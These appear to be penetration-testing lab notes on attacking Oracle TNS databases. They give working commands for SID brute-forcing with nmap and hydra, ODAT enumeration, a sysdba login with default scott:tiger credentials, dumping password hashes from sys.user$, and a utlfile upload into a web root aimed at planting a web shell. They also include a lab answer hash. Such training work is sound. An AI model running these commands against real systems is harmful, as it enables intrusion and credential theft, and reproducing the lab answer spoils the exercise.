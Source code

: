 - Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks
- supports IPX/SPX and TCP/IP protocols

### Default Configuration

- listens for incoming connections on the TCP/1521
- By default, Oracle TNS can be remotely managed in Oracle 8i/9i but not in Oracle 10g/11g
- listener will only accept connections from authorized hosts and perform basic authentication using a combination of hostnames, IP addresses, and usernames and passwords
- listener will use Oracle Net Services to encrypt the communication between the client and the server.
- configuration files are tnsnames.ora and listener.ora and are located in the ORACLE_HOME/network/admin directories
- Oracle 9 has a default password **CHANGE_ON_INSTALL**
- Oracle 10 has no default password set
- Oracle DBSNMP service also uses a default password, **dbsnmp**
- many organizations still use the finger service together with Oracle
- Each database or service has a unique entry in the tnsnames.ora file, containing the necessary information for clients to connect to the service
- listener.ora file is a server-side configuration file that defines the listener process's properties and parameters, which is responsible for receiving incoming client requests and forwarding them to the appropriate Oracle database instance
- Oracle databases can be protected by using so-called PL/SQL Exclusion List (PlsqlExclusionList). It is a user-created text file that needs to be placed in the $ORACLE_HOME/sqldeveloper directory, and it contains the names of PL/SQL packages or types that should be excluded from execution


### Oracle Database Attacking Tool

Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

Below is a script to download the tool and it's dependencies

```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

System Identifier, **SIDs**, are an essential part of the connection process, as it identifies the specific instance of the database the client wants to connect to. If the client specifies an incorrect SID, the connection attempt will fail. Database administrators can use the SID to monitor and manage the individual instances of a database. For example, they can start, stop, or restart an instance, adjust its memory allocation or other configuration parameters, and monitor its performance using tools like Oracle Enterprise Manager.


**NMAP**
```
sudo nmap -p1521 -sV 10.129.205.19 --open
```

**NMAP - SID Bruteforcing**
```
sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute
```


**Use odat.py to enumerate the oracle db**
```
./odat.py all -s 10.129.205.19
```

Credentials found - scott:tiger

**Use sqlplus to connect to Oracle db**
```
sqlplus scott/tiger@10.129.205.19/XE;
```

If you come across the following error...
```
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
```

...execute the below:
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

**Oracle RDBMS Interaction**
```
select table_name from all_tables;
```

[Database SQL Language Quick Reference](https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985)


**ORACLE RDBMS Enumeration - Logging in as Sys Admin**

```
sqlplus scott/tiger@10.129.205.19/XE as sysdba
```

**Enumerate the Database**
```
select * from user_role_privs;
```

**Extracting Password Hashes**
```
select name, password from sys.user$;
```

#### Oracle RDBMS - File Upload 

The above can be done via uploading a web shell to the target. However you must know the exact location of the root directory for the web server. In Linux it is /var/www/html and Windows C:\inetpub\wwwroot.


```
echo "Oracle File Upload Test" > testing.txt
```
```
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

**Use curl to verify the file upload worked**
```
curl -X GET http://10.129.204.235/testing.txt
```
### Questions

Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.
```
E066D214D5421CCC
```

Nmap
![[nmap_oracle_tns.png]]

Perform a variety of scans to enumerate and gather information about the Oracle database services and its components. Those scans can retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations, etc. 

Using the 'all' option on the odat.py tool will run all the scans described above
```
./odat.py all -s 10.129.205.19
```

Results from the above run odat. Three accounts were discovered, but were all locked, so could not get the passwords

**Usernames**
```
ctxsys
```
```
dbsnmp
```
```
dip
```

Service Name: XE

Credentials Found
```
scott:tiger
```
![[scott_tiger.png]]
Simply wordlist does not work
![[Pasted image 20230813045715.png]]

Found 4 legit SIDS
```
sudo hydra -L /usr/share/wordlists/sids-oracle.txt -t 32 -s 1521 10.129.205.19 oracle-sid
```

![[Pasted image 20230813061046.png]]

Running the following attack, but getting "Unknown service: oracle"
![[Pasted image 20230816230407.png]]

NSE oracle-sid-brute script
```
sudo nmap -p1521 -sV 10.129.45.163 --open --script oracle-sid-brute -Pn
```

![[Pasted image 20230816230543.png]]

Install sqlplus, following the instructions in the below links:
https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

[book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-pentesting-requirements-installation)

https://lisandre.com/archives/2164



